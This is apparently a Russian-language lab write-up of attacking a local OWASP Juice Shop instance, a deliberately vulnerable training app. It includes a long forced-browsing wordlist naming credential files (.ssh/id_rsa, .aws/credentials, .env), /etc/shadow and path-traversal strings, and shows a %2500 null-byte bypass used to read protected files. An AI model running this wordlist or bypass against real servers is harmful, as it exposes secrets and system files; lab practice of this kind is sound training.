








#### juice-shop
через докер у себя локально на маке 
```q
docker run --rm -p 127.0.0.1:3003:3000 --name juice-shop bkimminich/juice-shop
```
ну и локально открываю
http://localhost:3001

ЗАДАНИЕ - НАЙТИ КОНФИДЕЦИАЛЬНЫЙ ДОКУМЕНТ
и не сказано ничего о том, где его искать... 

(пишу постфакт -- пока я искал этот скрытый документ - попутно нашлись сразу несколько файлов + пасхалка с яйцом, здесь просто все кубарем пошло одно за другим! файл за файлом! )




собрал вот такой пейлоад на основе решенных лаб портсвиггера

запустил этот пейлоад через турбоинтрудер

```c
/api  
/api/ 
/v1  
/v2  
/graphql  
/swagger  
/api-docs  
/openapi.json

/swagger/index.html  
/swagger/ui  
/swagger-ui.html  
/swagger.json  
/swagger.yaml  
/api-docs/swagger.json  
/api-docs/swagger.yaml  
/docs  
/documentation  
/api/documentation  
/api/swagger  
/api/swagger-ui  
/api/swagger.json  
/api/swagger.yaml  
/openapi.yaml  
/api/openapi.json  
/api/openapi.yaml  
/v1/swagger.json  
/v2/swagger.json  
/v3/swagger.json

/graphql  
/graphiql  
/graphql/console  
/v1/graphql  
/v2/graphql  
/api/graphql  
/query  
/graphql/query

/api/v1  
/api/v2  
/api/v3  
/api/v4  
/api/v5  
/rest  
/rest/v1  
/rest/v2  
/api/rest  
/service  
/services  
/service/v1  
/services/v2

/admin/api  
/internal/api  
/private/api  
/partner/api  
/partner/v1  
/third-party/api  
/thirdparty/v1  
/backend/api  
/api/admin  
/api/internal  
/api/private

/api/1  
/api/2  
/api/3  
/api/latest  
/api/stable  
/api/beta  
/api/alpha  
/api/dev  
/api/test  
/api/staging

/api/json  
/api/xml  
/api/yaml  
/api/rest/json  
/api/rest/xml  
/api/data  
/api/endpoint  
/api/service  
/api/services  
/api/function  
/api/functions  
/api/method  
/api/methods  
/api/action  
/api/actions

/api/doc  
/api/docs  
/api/documentation  
/api/guide  
/api/reference  
/api/manual  
/api/help  
/api/index.html  
/api/readme  
/api/README

моб

/api/mobile  
/api/app  
/mobile/api  
/app/api  
/api/v1/mobile  
/api/android  
/api/ios  
/client-api  
/mobile-client

вот тут тоже может че-то будет

/robots.txt  
/sitemap.xml  
/.git/  
/backup/  
/phpinfo.php  
/cgi-bin/phpinfo.php  
/debug/  
index.php~  
index.php.bak  
index.php.swp  
index.php.save  
index.php.old  
index.php.orig  
config.php~  
config.php.bak  
.env~  
.env.bak  
.gitignore  
/debug  
/test  
/tests  
/dev  
/develop  
/development  
/stage  
/staging  
/admin/debug  
/api/debug  
/console/  
/web-console/  
/admin/  
/backup/  
/backups/  
/temp/  
/tmp/  
/logs/  
/log/  
/private/  
/hidden/  
/secret/  
/internal/  
/restricted/  
/secure/  
/protected/  
/uploads/  
/files/  
/downloads/  
/docs/  
/documentation/  
/api/docs/  
/swagger/  
/swagger-ui/  
/graphql/console/  
/.env  
/.htaccess  
/.htpasswd  
/WEB-INF/  
/WEB-INF/web.xml  
/META-INF/  
/META-INF/context.xml  
/server-status  
/server-info  
/config.php  
/config.xml  
/config.json  
/configuration.php  
/settings.php  
/wp-config.php  
/app.config  
/application.properties  
/application.yml  
/database.yml  
/error_log  
/error.log  
/access_log  
/access.log  
/debug.log  
/application.log  
/server.log  
/catalina.out
/old/
/backup/
/temp
/test
/dev 
/stage
/whoami

/?
/@
/#
/%
/&&
/*
//
/../
/../../
/../../../
/../../../../
/../../../../../
/../../../../../../
/../../../../../../../
/"
/'
/'--
/`
/;
/:

/<>
/<
/>

/~
/=
/&
/-
/url
/url=1
/url="q"
/n
/r
/r/n

/00
/1
/2
/3
/4
/5
/6
/7
/8
/9
/10
/admin
/administrator
/panel
/dashboard
/control
/admin-login
/system
/console
/user
/secure
/wp-admin
/wp-login.php
/wp-content
/wp-includes
/login.php
/admin.php
/dashboard.php
/administrator
/joomla/administrator
/admin/index.php
/component/users
/user/login
/user/register
/admin/config
/admin/dashboard
/adminer
/phpmyadmin
/myadmin
/database
/manager/html
/webdav
/_admin
/_panel
/admin.cgi
/admin.jsp
/admin.aspx
/admin.action
/admin.do
/admin.py
/Admin
/ADMIN
/AdMiN
/aDmIn
/.admin
/private
/hidden
/secret
/restricted
/internal
/staff
/sysadmin
/root
/api/admin
/v1/admin
/internal
/debug
/env
/config
/.env
/.git
/.svn
/.htaccess
/admin123
/adminarea
/adminpanel
/adminportal
/admincenter
/superadmin
/sysadmin
/platform-admin
/platform/login

../../../../etc/passwd
../../../../etc/hosts
../../../../etc/shadow
../../../../var/log/auth.log
../../../../proc/self/environ
..\..\..\Windows\win.ini
..\..\..\Windows\System32\drivers\etc\hosts
..\..\..\Windows\System32\config\SAM
..\..\..\Windows\debug\NetSetup.log
%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd
%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd
%2e%2e%5c%2e%2e%5c%2e%2e%5cWindows%5cwin.ini
../../../../etc/passwd%00.png
../../../../etc/passwd%00.jpg
..\..\..\Windows\win.ini%00.pdf

/.bash_history
/.bashrc
/.bash_profile
/.zsh_history
/.zshrc
/.ssh/id_rsa
/.ssh/authorized_keys
/.ssh/config
/.aws/credentials
/.aws/config
/.npmrc
/.dockercfg
/.docker/config.json
/.git/config
/.git/HEAD
/.svn/entries
/.htpasswd
/.htaccess.bak
/.htaccess.old
/.htpasswd.bak
/.env.backup
/.env.old
/.env.local
/.env.dev
/.env.prod
/.env.staging
/composer.json
/composer.lock
/package.json
/package-lock.json
/yarn.lock
/Gemfile
/Gemfile.lock
/requirements.txt
/Pipfile
/Pipfile.lock
/pom.xml
/build.gradle
/go.mod
/go.sum
/Cargo.toml
/Dockerfile
/docker-compose.yml
/docker-compose.yaml
/Makefile
/Procfile
/.travis.yml
/.github/workflows
/.gitlab-ci.yml
/Jenkinsfile
/.circleci/config.yml

/debug.log
/error.log
/access.log
/audit.log
/trace.log
/dump.sql
/database.sql
/backup.sql
/sql_dump.sql
/backup.db
/dump.db
/backup.tar.gz
/backup.zip
/site-backup.zip
/www-backup.zip
/logs/error.log
/logs/access.log
/logs/debug.log
/logs/application.log
/tmp/debug.log
/tmp/error.log

/.htaccess.bak
/.htpasswd.bak
/httpd.conf
/nginx.conf
/web.config
/web.config.bak
/.htrouter.php
/.user.ini
/php.ini
/php.ini.bak
/php.ini-development
/php.ini-production
/conf/httpd.conf
/conf/nginx.conf
/etc/apache2/apache2.conf
/etc/nginx/nginx.conf

/server.js
/app.js
/index.js
/main.js.bak
/server.js.bak
/app.js.bak
/src/server.js
/backend/server.js
/backend/app.js
/backend/config.js
/config/database.js
/config.js
/secret.js
/keys.js
/passwords.txt
/secrets.txt
/tokens.txt
/api.keys
/api-keys.txt
/.env.development
/.env.production
/.env.test

/file.bak
/file.old
/file.backup
/file.save
/file.swp
/file.swo
/file~
/file.js~
/file.php~
/file.html~
/file.css~
/file.json~
/file.xml~


/credentials.txt
/creds.txt
/passwords.txt
/passwd.txt
/secrets.txt
/tokens.txt
/api-keys.txt
/api_keys.txt
/keys.txt
/private.key
/private.pem
/rsa
/rsa.pub
/id_rsa
/id_rsa.pub
/ssh.key
/oauth.txt
/jwt.secret
/jwt_rsa

/metrics
/health
/healthz
/status
/ping
/ready
/live
/health/status
/actuator
/actuator/health
/actuator/metrics
/actuator/info
/actuator/env
/prometheus
/stats
/statistics
/report
/reports
/dashboard/stats

/test.php
/test.jsp
/test.asp
/test.html
/test.js
/temp.php
/temp.html
/temp.js
/debug.php
/debug.jsp
/debug.asp
/debug.html
/dev/index.html
/staging/index.html
/uat
/qa
/sandbox
/sample
/examples
/demo
/demosite
/playground
/sandbox/test
/example
/examples/api

/cpanel
/whm
/webmail
/plesk
/plesk-sitebuilder
/vesta
/vesta/
/directadmin
/directadmin/
/ispmgr
/billmanager
/virtualmin
/virtualmin/
/webmin
/webmin/
/adminer
/adminer.php
/phpmyadmin
/phpMyAdmin
/pma
/sqladmin
/mysqladmin
/mysql-manager
/dbadmin
/db_manager
/phpPgAdmin
/pgadmin
/pgadmin4
/adminer
/phpredisadmin
/redis-admin
/rabbitmq
/rabbitmq-admin
/kibana
/grafana
/prometheus
/alertmanager

/graphql/schema
/graphql/schema.json
/graphql/schema.graphql
/graphql/voyager
/graphiql

/.git/config
/.git/HEAD
/.git/index
/.git/logs/HEAD
/.git/refs/heads/master
/.git/packed-refs
/.git/info/exclude
/.gitattributes
/.gitmodules
/.svn/wc.db
/.svn/entries
/.hg/hgrc
/.bzr/README

/static/admin/
/media/
/static/
/staticfiles/
/static/js/
/static/css/
/static/media/
/static/uploads/
/static/img/
/static/images/
/static/files/
/admin/jsi18n/
/__pycache__/
/*.pyc
/*.pyo
/wsgi.py
/asgi.py
/manage.py
/settings.py
/settings_local.py
/settings_dev.py
/settings_prod.py
/dev_settings.py
/prod_settings.py
/local_settings.py
/urls.py
/views.py
/models.py
/forms.py
/admin.py

/graphql/playground
/graphql/ide
/graphql/graphiql
/graphql/altair
/graphql/console
/v1/graphiql
/v2/graphiql
/api/graphiql

/*.class
/*.jar
/*.war
/*.ear
/WEB-INF/classes/
/WEB-INF/lib/
/WEB-INF/classes/application.properties
/WEB-INF/classes/application.yml
/WEB-INF/classes/log4j.properties
/WEB-INF/classes/logback.xml
/META-INF/MANIFEST.MF
/META-INF/spring-configuration-metadata.json
/actuator
/actuator/
/swagger-ui.html
/v2/api-docs
/v3/api-docs

/node_modules/
/npm-debug.log
/yarn-error.log
/.npm/_logs/
/.yarn/
/npm-shrinkwrap.json
/package-lock.json.bak
/yarn.lock.bak
/.nvmrc
/.node-version
/ecosystem.config.js
/pm2.json
/process.json
/cluster.js
/server.js.bak
/app.js.bak
/index.js.bak


```


и вижу прям несколько попаданий и интересных ответов !!!




--------
 что дал мой пейлоад:

```q
пейлоад
 GET /robots.txt HTTP/1.1
 
 ответ с подсказкой!

HTTP/1.1 200 OK
Access-Control-Allow-Origin: *
X-Content-Type-Options: nosniff
X-Frame-Options: SAMEORIGIN
Feature-Policy: payment 'self'
X-Recruiting: /#/jobs
Content-Type: text/plain; charset=utf-8
Content-Length: 28
ETag: W/"1c-8HgF6mNyhsSFK0pascC9uB0wjX0"
Vary: Accept-Encoding
Date: Sun, 17 May 2026 13:40:30 GMT
Connection: keep-alive
Keep-Alive: timeout=5

User-agent: *
Disallow: /ftp

-----------------------

пейлоад 
GET /api-docs/swagger.yaml HTTP/1.1
Host: 127.0.0.1:3003

ответ:

также нашлась епта!!
документация API в открытом виде!!
❌ 

ордер на заказ

👉  ⭐️  json
{
  "cid": "JS0815DE",
  "orderLines": [
    {
      "productId": 8,
      "quantity": 500,
      "customerReference": "PO0000001"
    }
  ],
  "orderLinesData": "[{\"productId\": 12,\"quantity\": 10000,\"customerReference\": [\"PO0000001.2\", \"SM20180105|042\"],\"couponCode\": \"pes[Bh.u*t\"},{\"productId\": 13,\"quantity\": 2000,\"customerReference\": \"PO0000003.4\"}]"
}

или

 New customer order is created
 Example Value
 Schema

json<br>{<br>  "cid": "JS0815DE",<br>  "orderNo": "3d06ac5e1bdf39d26392f8100f124742",<br>  "paymentDue": "2018-01-19"<br>}<br>


example: [{"productId": 12,"quantity": 10000,"customerReference": ["PO0000001.2", "SM20180105|042"],"couponCode": "pes[Bh.u*t"},{"productId": 13,"quantity": 2000,"customerReference": "PO0000003.4"}]

ТО ЕСТЬ МОЖНО ПРОБОВАТЬ СОЗДАВАТЬ КАСТОМНЫЕ ОРДЕРА
И ПОДМЕНЯТЬ В НИХ iD и менять разные параметры!!

буду иметь ввиду, и когда найду задание соответствующее - то вернусь сюда!


--------------------------------


пейлоад GET /metrics HTTP/1.1

тут лежат метрики открытые...
куча инфы - не прям опасной - но довольно такие конфиденциальной!!
и для OSINT - это клад инфы

# HELP juiceshop_users_registered Number of registered users grouped by customer type.
# TYPE juiceshop_users_registered gauge
juiceshop_users_registered{type="standard",app="juiceshop"} 11
juiceshop_users_registered{type="deluxe",app="juiceshop"} 4

# HELP juiceshop_users_registered_total Total number of registered users.
# TYPE juiceshop_users_registered_total gauge
juiceshop_users_registered_total{app="juiceshop"} 23

# HELP juiceshop_wallet_balance_total Total balance of all users' digital wallets.
# TYPE juiceshop_wallet_balance_total gauge
juiceshop_wallet_balance_total{app="juiceshop"} 13887

и куча подобного , в том числе инфа о лабах решенных (наверно, это все служебная инфа)


----------------------------------------------------------


пейлоад  GET /% HTTP/1.1    (и другие кривые пейлоады)

вышли ошибки! причем ошибка подробная с полным стектрейсом!
это Information Disclosure

HTTP/1.1 400 Bad Request
X-Content-Type-Options: nosniff
Content-Type: text/html; charset=utf-8
Vary: Accept-Encoding
Content-Encoding: br
Date: Sun, 17 May 2026 13:40:31 GMT
Connection: keep-alive
Keep-Alive: timeout=5
Transfer-Encoding: chunked

-    at decodeURIComponent (<anonymous>)
-    at decode_param (/juice-shop/node_modules/express/lib/router/layer.js:172:12)
-    at Layer.match (/juice-shop/node_modules/express/lib/router/layer.js:123:27)
-    at matchLayer (/juice-shop/node_modules/express/lib/router/index.js:585:18)
-    at next (/juice-shop/node_modules/express/lib/router/index.js:226:15)
-    at compression (/juice-shop/node_modules/compression/index.js:243:5)
-    at Layer.handle [as handle_request] (/juice-shop/node_modules/express/lib/router/layer.js:95:5)
-    at trim_prefix (/juice-shop/node_modules/express/lib/router/index.js:328:13)
-    at /juice-shop/node_modules/express/lib/router/index.js:286:9
-    at router.process_params (/juice-shop/node_modules/express/lib/router/index.js:346:12)
-    at next (/juice-shop/node_modules/express/lib/router/index.js:280:10)
-    at expressInit (/juice-shop/node_modules/express/lib/middleware/init.js:40:5)
-    at Layer.handle [as handle_request] (/juice-shop/node_modules/express/lib/router/layer.js:95:5)
-    at trim_prefix (/juice-shop/node_modules/express/lib/router/index.js:328:13)
-    at /juice-shop/node_modules/express/lib/router/index.js:286:9
-    at router.process_params (/juice-shop/node_modules/express/lib/router/index.js:346:12)
-    at next (/juice-shop/node_modules/express/lib/router/index.js:280:10)
-    at query (/juice-shop/node_modules/express/lib/middleware/query.js:45:5)
-    at Layer.handle [as handle_request] (/juice-shop/node_modules/express/lib/router/layer.js:95:5)
-    at trim_prefix (/juice-shop/node_modules/express/lib/router/index.js:328:13)
-    at /juice-shop/node_modules/express/lib/router/index.js:286:9
-    at router.process_params (/juice-shop/node_modules/express/lib/router/index.js:346:12)


то есть можно пробовать другие пейлоады - и может получится вообще попасть в систему


--------------------------------------------------------------


пейлоад GET /api-docs HTTP/1.1

ответ с редиректом

HTTP/1.1 301 Moved Permanently
Access-Control-Allow-Origin: *
X-Content-Type-Options: nosniff
X-Frame-Options: SAMEORIGIN
Feature-Policy: payment 'self'
X-Recruiting: /#/jobs
Content-Type: text/html; charset=UTF-8
Content-Length: 158
Content-Security-Policy: default-src 'none'
Location: /api-docs/
Vary: Accept-Encoding
Date: Sun, 17 May 2026 13:40:29 GMT
Connection: keep-alive
Keep-Alive: timeout=5

<!DOCTYPE html>
<html lang="en">
<head>
<meta charset="utf-8">
<title>Redirecting</title>
</head>
<body>
<pre>Redirecting to /api-docs/</pre>
</body>
</html>

там снова попадаем на стр с апишками, незакрытый swagger


{
  "cid": "JS0815DE",
  "orderLines": [
    {
      "productId": 8,
      "quantity": 500,
      "customerReference": "PO0000001"
    }
  ],
  "orderLinesData": "[{\"productId\": 12,\"quantity\": 10000,\"customerReference\": [\"PO0000001.2\", \"SM20180105|042\"],\"couponCode\": \"pes[Bh.u*t\"},{\"productId\": 13,\"quantity\": 2000,\"customerReference\": \"PO0000003.4\"}]"
}
и подобное (но это самое важное)


------------------------------------------------------------


--------------------------------------------------------

и остальные пейлоады возвращали редирект либо на главную страницу 
либо давали ошибку 500 с полный стектрейсом!


```


пейлоад GET /api-docs/swagger.yaml HTTP/1.1
и также GET /api-docs/swagger.json 




-------------

теперь нужно проверить это все, че там находится!
но инфы прям оч много уже удалось получить!!


--------


------

начинаю исследовать по порядку находки!

первое - в файле робот.тхт есть это
 /ftp
смотрим
а там просто дыра!!

да этот сайт везде дырявый настолько - что аж страшно 😂




  
вот че там есть
```
# [~](http://127.0.0.1:3003/) / [ftp](http://127.0.0.1:3003/ftp)

- [quarantine5/12/2026 11:59:39 AM](http://127.0.0.1:3003/ftp/quarantine "quarantine")
  
- [acquisitions.md9095/12/2026 11:59:39 AM](http://127.0.0.1:3003/ftp/acquisitions.md "acquisitions.md")
  
- [announcement_encrypted.md3692375/12/2026 11:59:39 AM](http://127.0.0.1:3003/ftp/announcement_encrypted.md "announcement_encrypted.md")
  
- [coupons_2013.md.bak1315/12/2026 11:59:39 AM](http://127.0.0.1:3003/ftp/coupons_2013.md.bak "coupons_2013.md.bak")
- [eastere.gg3245/12/2026 11:59:39 AM](http://127.0.0.1:3003/ftp/eastere.gg "eastere.gg")
  
- [encrypt.pyc5735/12/2026 11:59:39 AM](http://127.0.0.1:3003/ftp/encrypt.pyc "encrypt.pyc")
  
- [incident-support.kdbx32465/12/2026 11:59:39 AM](http://127.0.0.1:3003/ftp/incident-support.kdbx "incident-support.kdbx")
  
- [legal.md30475/17/2026 7:58:23 AM](http://127.0.0.1:3003/ftp/legal.md "legal.md")
  
- [package-lock.json.bak7503535/12/2026 11:59:39 AM](http://127.0.0.1:3003/ftp/package-lock.json.bak "package-lock.json.bak")
  
- [package.json.bak42635/12/2026 11:59:39 AM](http://127.0.0.1:3003/ftp/package.json.bak "package.json.bak")
  
- [suspicious_errors.yml7235/12/2026 11:59:39 AM](http://127.0.0.1:3003/ftp/suspicious_errors.yml "suspicious_errors.yml")
  
  
  
 ✅ например тут есть этот флаг
  
  # Planned Acquisitions

> ❌ 👉 This document is confidential! Do not distribute!

Our company plans to acquire several competitors within the next year.
This will have a significant stock market impact as we will elaborate in
detail in the following paragraph:

Lorem ipsum dolor sit amet, consetetur sadipscing elitr, sed diam nonumy
eirmod tempor invidunt ut labore et dolore magna aliquyam erat, sed diam
voluptua. At vero eos et accusam et justo duo dolores et ea rebum. Stet
clita kasd gubergren, no sea takimata sanctus est Lorem ipsum dolor sit
amet. Lorem ipsum dolor sit amet, consetetur sadipscing elitr, sed diam
nonumy eirmod tempor invidunt ut labore et dolore magna aliquyam erat,
sed diam voluptua. At vero eos et accusam et justo duo dolores et ea
rebum. Stet clita kasd gubergren, no sea takimata sanctus est Lorem
ipsum dolor sit amet.

Our shareholders will be excited. It's true. No fake news.
  
```


остальные файлы не открываются 
типо ошибка формата




но это можно попробовать обойти - указав другой формат - он просит .pdf

пробую 
http://127.0.0.1:3003/ftp/suspicious_errors.yml
ответ 403 - заблокированно все - говорит - не то расширение

пробую через нул байт

http://127.0.0.1:3003/ftp/suspicious_errors.yml%00.md
ответ 400

слегка закодировал нулбайт
http://127.0.0.1:3003/ftp/suspicious_errors.yml%2500.md

и получилось получить документ!
```
title: Suspicious error messages specific to the application
description: Detects error messages that only occur from tampering with or attacking the application
author: Bjoern Kimminich
logsource:
    category: application
    product: nodejs
    service: errorhandler
detection:
    keywords:
        - 'Blocked illegal activity'
        - '* with id=* does not exist'
        - 'Only * files are allowed'
        - 'File names cannot contain forward slashes'
        - 'Unrecognized target URL for redirect: *'
        - 'B2B customer complaints via file upload have been deprecated for security reasons'
        - 'Infinite loop detected'
        - 'Detected an entity reference loop'
    condition: keywords
level: low
```


пробую другие файлы
http://127.0.0.1:3003/ftp/coupons_2013.md.bak%2500.md
```q
n<MibgC7sn

mNYS#gC7sn

o*_IVigC7sn_

_k_#pDlgC7sn

o*_I]pgC7sn_

_n(XRvgC7sn_

_n(XLtgC7sn_

_k_#*_AfgC7sn_

_q:_<IqgC7sn

_pEw8ogC7sn_

_pes[BgC7sn_

_l}6D$gC7ss_
```

пробую 
http://127.0.0.1:3003/ftp/package.json.bak%2500.md
```c
{

  "name": "juice-shop",

  "version": "6.2.0-SNAPSHOT",

  "description": "An intentionally insecure JavaScript Web Application",

  "homepage": "http://owasp-juice.shop",

  "author": "Björn Kimminich <bjoern.kimminich@owasp.org> (https://kimminich.de)",

  "contributors": [

    "Björn Kimminich",

    "Jannik Hollenbach",

    "Aashish683",

    "greenkeeper[bot]",

    "MarcRler",

    "agrawalarpit14",

    "Scar26",

    "CaptainFreak",

    "Supratik Das",

    "JuiceShopBot",

    "the-pro",

    "Ziyang Li",

    "aaryan10",

    "m4l1c3",

    "Timo Pagel",

    "..."

  ],

  "private": true,

  "keywords": [

    "web security",

    "web application security",

    "webappsec",

    "owasp",

    "pentest",

    "pentesting",

    "security",

    "vulnerable",

    "vulnerability",

    "broken",

    "bodgeit"

  ],

  "dependencies": {

    "body-parser": "~1.18",

    "colors": "~1.1",

    "config": "~1.28",

    "cookie-parser": "~1.4",

    "cors": "~2.8",

    "dottie": "~2.0",

    "epilogue-js": "~0.7",

    "errorhandler": "~1.5",

    "express": "~4.16",

    "express-jwt": "0.1.3",

    "fs-extra": "~4.0",

    "glob": "~5.0",

    "grunt": "~1.0",

    "grunt-angular-templates": "~1.1",

    "grunt-contrib-clean": "~1.1",

